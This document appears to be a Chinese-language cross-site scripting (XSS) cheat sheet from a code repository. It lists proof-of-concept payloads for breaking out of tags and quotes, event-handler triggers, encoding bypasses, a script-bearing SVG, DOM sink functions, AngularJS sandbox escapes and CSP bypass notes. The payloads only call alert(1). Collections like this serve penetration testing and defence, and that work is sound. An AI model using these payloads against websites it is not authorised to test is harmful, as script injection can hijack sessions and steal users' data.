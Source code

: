 ⚠️要么闭合标签，要么闭合引号⚠️  

## 常用POC:
- `"><script>alert(1)</script>`  
- `<img src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
伪协议
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 编码绕过POC：
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等